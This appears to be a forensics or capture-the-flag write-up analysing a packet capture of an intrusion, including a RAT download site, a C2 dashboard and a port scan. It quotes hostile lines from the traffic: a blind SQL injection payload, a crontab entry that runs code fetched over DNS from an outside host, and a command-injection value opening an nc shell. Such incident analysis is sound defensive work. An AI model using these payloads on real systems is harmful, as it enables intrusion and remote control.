 4. Cleaning HTTP dump (begin with 3046 file) :
	- First a lot of file are 404 not found, let's delete them : `for file in *; do grep -q "<title>404 Not Found</title>" "$file" && rm "$file"; done` (after that wer have 1054 file)
	- We have almost 1000 `index.php`...we can see some interesting data (We can see **sqlinjection**) in it, for example :
	```
	username=addd&password=dasd%27%2F%2A%2A%2FAND%2F%2A%2A%2F%28SELECT%2F%2A%2A%2F1101%2F%2A%2A%2FFROM%2F%2A%2A%2F%28SELECT%28SLEEP%281-%28IF%28ORD%28MID%28%28SELECT%2F%2A%2A%2FDISTINCT%28IFNULL%28CAST%28schema_name%2F%2A%2A%2FAS%2F%2A%2A%2FNCHAR%29%2C0x20%29%29%2F%2A%2A%2FFROM%2F%2A%2A%2FINFORMATION_SCHEMA.SCHEMATA%2F%2A%2A%2FLIMIT%2F%2A%2A%2F0%2C1%29%2C4%2C1%29%29%3E96%2C0%2C1%29%29%29%29%29AQrj%29%2F%2A%2A%2FAND%2F%2A%2A%2F%27SToK%27%3D%27SToK                                                                                                                               
	```
	- I'll delete all the index file, because i think it's not very usefull to have all the sqlinjection in files... (we have 55 files remaining)
	- by looking at the different file I see that : (in `%2F` files)
	```
        <li><a href="cs-linux.deb">Download for Linux</a></li>
        <li><a href="cs-android.apk">Download for Android</a></li>
        <li><a href="cs-windows.exe">Download for Windows</a></li>
        
        <p>Take control of your customer relationships. Download CustomerSync today and elevate your customer interactions to new heights!</p>
	```
	- Looks like this website was used to download a rat
	- the `a(.)` files are js with base64
	- The `crontab` file have this : `* * * * * /bin/bash -c "bash -c $(dig linuxupdate.cd TXT +short @ns.linuxupdate.cd)"`
	- `dashboard` files contains the C2 dashboard (obviously), can have some interesting things, on one dashboard I saw the result of a command
	- `favicon` files deleted
	- `ptj` files are garbage i think... Nothing readable.... so delete
	- `PwnKit` is a ELF (also a sh file with this name which downloaded the ELF)
	- `submit` looks garbage... so delete
5. We can have a better idea of what the attacker did with the filter : `ip.src == 192.168.1.5`
    - We see a lot of HTTP communication
    - Then they are a lot of TCP communication, but it's just the three way handshake, that mean the attacker did a port scanner
6. In order to find what opened port the atacker fins I did this filter : `(tcp.flags == 0x0012 and ip.dst == 192.168.1.5 and ip.src == 192.168.1.3) && !(tcp.srcport == 80)`
    - it's working pretty nicely but I added : `&& !(tcp.srcport == 443)` because they are a lot of 443 (I think He used the 443 after discovering it)
    - In the end he discovered all these ports : 110, 119, 143, 2020, 25, 465, 5222, 53, 5555, 563, 587, 993, 995, 443, 80
7. Let's go back to the HTTP traffic, I used that : `(ip.src == 192.168.1.5 && tcp.dstport == 80) or (ip.src == 192.168.1.3 && tcp.srcport == 80)` to focus on my http communications (then I savec in another file, to focus)
    - SQLi to sysmon.cs-corp.cd - a lot of sqli, response always content-length 663
    - this one different : username=addd&password=6203 (response content-length 656, stream 144 in the file with only the http) USELESS
    - One good : username=admin&password=Pass%40000_ with that he get a 302 and goes to /dashboard (stream 1382) also 1429, 1453 **The attacker successfully connect to the dashboard**
    - Stream 1588 : `host=|mkfifo /tmp/mypipe;cat /tmp/mypipe|/bin/bash|nc -l -p 5555 >/tmp/mypipe`
8. After a lot of research, we can see a DNS zone transfer, the answer is in packet number `9396`
    - We have information about the subdomains
    ![subdomains](../../img/01_subdomains.png)
    - This DNS zone transfer is between the port scan and the sqli
